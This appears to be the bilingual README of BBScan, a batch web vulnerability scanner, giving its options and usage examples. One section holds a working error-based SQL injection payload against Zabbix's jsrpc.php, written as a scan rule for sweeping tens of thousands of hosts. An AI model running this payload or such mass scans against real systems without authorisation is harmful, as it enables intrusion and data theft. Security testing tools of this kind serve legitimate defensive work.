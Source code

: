 # BBScan 1.1.0 #

**BBScan** is a tiny **B**atch we**B** vulnerability **Scan**ner.


## Requirements ##
* BeautifulSoup4==4.3.2
* py2-ipaddress==3.4.1

You can install required packages with pip

	pip install -r requirements.txt

## Usage ##

	usage: BBScan.py [options]
	
	* A tiny Batch weB vulnerability Scanner. *
	By LiJieJie (http://www.lijiejie.com)
	
	optional arguments:
	  -h, --help            show this help message and exit
	  --host HOST [HOST2 HOST3 ...]
	                        Scan several hosts from command line
	  -f TargetFile         Load targets from TargetFile
	  -d TargetDirectory    Load all *.txt files from TargetDirectory
	  --crawler TargetDirectory
	                        Load all *.log crawler file from TargetDirectory
	  --full-scan           Process all sub directories.
	  -n, --no-crawl        No crawling, sub folders will not be processed.
	  -nn, --no-check404    No HTTP 404 existence check
	  -p PROCESS            Num of processes running concurrently, 10 by default
	  -t THREADS            Num of scan threads for each scan process, 8 by default
	  --network MASK        Scan all Target/MASK hosts,
	                        should be an int between 24 and 31
	  --timeout Timeout     Max scan minutes for each website, 20 by default
	  --browser             View report with browser after scan finished.
	  -md                   Save the scan report as markdown format
	  -v                    show program's version number and exit

**1. Scan several hosts from command line** 

	python BBScan.py  --host www.a.com www.b.com --browser

**2. Scan www.target.com and all the other IPs under www.target.com/28**

	python BBScan.py  --host www.target.com --network 28 --browser
	
**3. Load newline delimetered targets from file and scan**
	
	python BBScan.py -f wandoujia.com.txt

**4. Load all targets from Directory(\*.txt file only) and scan**

	python BBScan.py -d targets/

**5. Load crawler logs from Directory(\*.log file only) and scan**

	python BBScan.py --crawler crawler_logs/

crawler log files should be formarted first:

			. GET http://www.iqiyi.com/ HTTP/1.1^^^200
			. POST http://www.pps.tv/login.php HTTP/1.1^^^user=admin&passwd=admin^^^200


## 使用说明 ##

BBScan是一个迷你的信息泄漏批量扫描脚本。 可以通过文本批量导入主机或URL，以换行符分割。
	
`--crawler` 参数是v1.1新增的，可以导入爬虫日志发起扫描。 日志的格式，我们约定如下：

			Request Line + 三个尖括号 + [POST请求body] + 三个尖括号 + HTTP状态码
示例如下：

			. GET http://www.iqiyi.com/ HTTP/1.1^^^200
			. POST http://www.pps.tv/login.php HTTP/1.1^^^user=admin&passwd=admin^^^200

`--full-scan`  处理所有的子文件夹，比如 `http://www.target.com/aa/bb/cc/`, `/aa/bb/cc/` `/aa/bb/` `/aa/` 三个path都将被扫描

`-n, --no-crawl`  不从首页抓取新的URL

`-nn, --no-check404` 不检查状态码404是否存在，不保存404页面的大小进行后续比对


## web漏洞应急中的简单应用 ##

以批量扫描 Zabbix SQL注入为例，在一个txt文件中写入规则：

	/zabbix/jsrpc.php?sid=0bcd4ade648214dc&type=9&method=screen.get&tamp=1471403798083&mode=2&screenid=&groupid=&hostid=0&pageFile=history.php&profileIdx=web.item.graph&profileIdx2=1zabbix/jsrpc.php?sid=0bcd4ade648214dc&type=9&method=screen.get&tim%20estamp=1471403798083&mode=2&screenid=&groupid=&hostid=0&pageFile=hi%20story.php&profileIdx=web.item.graph&profileIdx2=(select%201%20from%20(select%20count(*),concat(floor(rand(0)*2),%20user())x%20from%20information_schema.character_sets%20group%20by%20x)y)&updateProfil%20e=true&screenitemid=&period=3600&stime=20160817050632&resourcetype=%2017&itemids%5B23297%5D=23297&action=showlatest&filter=&filter_task=&%20mark_color=1    {tag="Duplicate entry"}  {status=200}  {type="text/plain"}
	
	/jsrpc.php?sid=0bcd4ade648214dc&type=9&method=screen.get&stamp=1471403798083&mode=2&screenid=&groupid=&hostid=0&pageFile=history.php&profileIdx=web.item.graph&profileIdx2=1zabbix/jsrpc.php?sid=0bcd4ade648214dc&type=9&method=screen.get&tim%20estamp=1471403798083&mode=2&screenid=&groupid=&hostid=0&pageFile=hi%20story.php&profileIdx=web.item.graph&profileIdx2=(select%201%20from%20(select%20count(*),concat(floor(rand(0)*2),%20user())x%20from%20information_schema.character_sets%20group%20by%20x)y)&updateProfil%20e=true&screenitemid=&period=3600&stime=20160817050632&resourcetype=%2017&itemids%5B23297%5D=23297&action=showlatest&filter=&filter_task=&%20mark_color=1          {tag="Duplicate entry"}  {status=200}  {type="text/plain"}

把所有HTTP like的服务写入 iqiyi.http.txt：

	不要抓首页
	不要检测404
	并发2个线程、 50个进程

可以比较迅速地扫完几万个域名和IP地址：

	BBScan.py --no-crawl --no-check404 -t2 -p50 -f iqiyi.http.txt


该插件是从内部扫描器中抽离出来的，感谢 `Jekkay Hu<34538980[at]qq.com>` ，欢迎提交有用的新规则	
